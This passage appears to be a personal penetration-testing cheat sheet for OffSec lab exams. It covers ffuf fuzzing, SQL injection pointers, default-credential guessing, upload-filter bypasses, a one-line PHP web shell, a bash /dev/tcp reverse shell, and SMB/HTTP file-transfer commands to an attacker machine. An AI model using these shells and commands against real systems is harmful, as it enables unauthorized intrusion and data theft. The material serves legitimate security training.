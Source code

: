 # Replace FUZZ in req.txt with word in wordlist
ffuf -request req.txt -request-proto http -w <wordlist>
# Replace USER in req.txt with user in userlist and PASS with password in passlist
ffuf -request req.txt -request-proto http -mode <pitchfork/clusterbomb> -w <userlist>:USER -w <passlist>:PASS
On that note, when I browse sites on any target, I generally have the traffic always go through BurpSuite, using the FoxyProxy Firefox extension. This way I can always go back to BurpSuite and get a site map for pages I visited. Not required, but I find it nice.
•	SQL injection with MSSQL xp_cmdshell or MySQL INTO OUTFILE → union or error (verbose) based since they really can’t give you anything blind → perspectiverisk has really good cheat sheets: MySQL, MSSQL
•	any login panel try some basic creds like admin:password, admin:admin, name of the site, and default creds for the site framework found online. This is one thing I strongly dislike about OffSec; sometimes they expect you to just guess some creds on a login page to get in
•	if you get into an admin panel, first thing to look for is a file upload feature → assuming PHP which OffSec seems to like a lot, try test.php (which probably won’t work bc they want you to try harder), test.pHP (which probably will work), test.phtml, test.php5
For PHP, I like this shell:
<?php system($_GET["cmd"]); ?>
BUT if you use the PHP Ivan Sincek one from revshells.com, I’ve found that it sometimes gives you access as the service user in Windows when the other basic one only gives you access as a normal user. This is really useful because service users have SeImpersonatePrivilege and potato attacks are easy. Nobody talks about this, which I find weird.
Reverse Shells
In special cases when netcat is not your friend, revshells.com saves so much time typing it all out (especially powershell base64 encoded)
Always try port 80 or 443 first to avoid getting blocked by firewall.
•	when getting a reverse shell on Windows, I always just use nc.exe because it’s the stablest. So first command to upload, second command to get shell
•	on Linux, first try
/bin/bash -c "bash -i >& /dev/tcp/<ip>/443 0>&1"
then upload netcat if that doesn’t work → don’t try to use the target’s built in netcat since it probably won’t have the -e option.
File Transfers
Linux: python SimpleHTTPServer or http.server on machine with file and wget/curl to get file
# Serve a specific directory
python2 -m SimpleHTTPServer 80 --directory <dir>
python3 -m http.server 80 --directory <dir>
# Download file
wget http://<ip>/<file>
curl http://<ip>/<file> -o <output file>
Windows: impacket-smbserver -smb2support on Kali and copy with \\<ip>\<share> in the path to both upload and download or mount with net use
# Serve a specific directory
impacket-smbserver -smb2support share <dir>
# Download from attacker
copy \\<ip>\share\<file>
# Upload to attacker
copy <file> \\<ip>\share
My terminal plugin makes these easy: https://github.com/RedefiningReality/ohmykali
If all else fails: service ssh start on your Kali and use scp
